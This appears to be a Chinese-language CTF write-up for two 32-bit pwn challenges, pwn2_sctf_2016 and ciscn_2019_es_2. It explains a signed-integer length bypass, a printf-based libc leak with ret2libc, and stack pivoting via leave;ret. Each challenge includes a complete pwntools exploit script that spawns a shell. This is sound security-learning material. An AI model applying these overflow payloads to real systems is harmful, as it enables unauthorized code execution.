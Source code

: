 ```yaml
---
title: 'pwn2_sctf_2016'
date: 2023-12-30 13:00:00 +0800
categories: [ctf,pwn]
tags: [leak_libc]
---
```

- `lib`地址泄露

![image-20231223203034800](../assets/img/old_imgs/image-20231223203034800.png)

> vuln()

1. 程序对输入的`v2`做了限制首先要利用整数绕过`if (v2 > 32)`的限制

2. 程序中没有现成的`shell`所以要通过`printf`泄露`lib`手动构造`shell`

   ```python
   from pwn import * 
   context.log_level = 'debug'
   io = process('./pwn2_sctf_2016')
   #io = gdb.debug('./pwn2_sctf_2016','break *vuln')
   elf = ELF('./pwn2_sctf_2016')
   Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
   printf_got = elf.got['printf']
   printf_plt = elf.plt['printf']
   vuln_addr = elf.sym['vuln']
   main_addr = elf.sym['main']
   offset =48
   #1.绕过限制
   io.sendlineafter('How many bytes do you want me to read?',b'-1')
   #2.泄露lib
   payload1 = b'A'*offset+p32(printf_plt)+p32(vuln_addr)+p32(printf_got)
   io.sendlineafter(b'data!\n',payload1)
   io.recvuntil('\n')
   a = io.recv(4)
   printf_addr = u32(a)
   print('lib->',hex(printf_addr))
   #3.构造shell
   baseoffset = printf_addr - Lib.symbols['printf']
   sys_addr = Lib.sym['system']+baseoffset
   shell_addr = baseoffset+next(Lib.search(b'/bin/sh'))
   io.sendlineafter(b'read?',b'-1')
   payload2 = b'A'*offset+p32(sys_addr)+p32(main_addr)+p32(shell_addr)
   io.recvuntil(b'data!\n')
   io.sendline(payload2)
   io.interactive()
   ```

   

# ciscn_2019_es_2

![image-20231225113135740](../assets/img/old_imgs/image-20231225113135740.png)

- 栈迁移

1. `read()`存在溢出,但是只有`0x30`个位置不能拿到shell,所以考虑栈迁移
2. 通过泄露参数`s`在栈上的位置,将`payload`写入栈上
3. 迁移栈到参数`s`的位置,运行写入的`payload`拿到shell

```assembly
leaved =>
mov esp,ebp 
pop ebp
#清除栈帧,初始化到执行前的样子
ret =>
pop eip
jmp
#相当于一个无条件转跳
```

![image-20231225110712276](../assets/img/old_imgs/image-20231225110712276.png)

> 泄露出`s`在栈上的偏移地址

![image-20231225124013883](../assets/img/old_imgs/image-20231225124013883.png)

> 完成栈迁移

```python 
from pwn import *
#context.log_level = 'debug'
io = process('./ciscn_2019_es_2')
#io = gdb.debug('./ciscn_2019_es_2','break *vul')
elf = ELF('./ciscn_2019_es_2')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
offset = 0x28
payload1 = b'A'*offset
io.sendafter(b"Welcome, my friend. What's your name?\n",payload1)
io.recvuntil(b'Hello,')
io.recvuntil(b'A'*0x28)
old_ebp = u32(io.recv(4))
s_addr = ebp_addr = old_ebp-0x10-offset
print('old_ebp -> ',hex(old_ebp))
print('s_addr -> ',hex(ebp_addr))
#pause()
payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00' #`\x00`截断
#32位程序中参数在函数的后0x10位置,所以填充p32(0)
payload2 = payload2.ljust(0x28,b'A')
payload2 += p32(s_addr)+p32(0x08048562) #填充满栈空间,用p32(s_addr)+p32(0x08048562)劫持`leave`完成迁移并填充上新的`leave&ret`
io.send(payload2)
io.interactive()
```
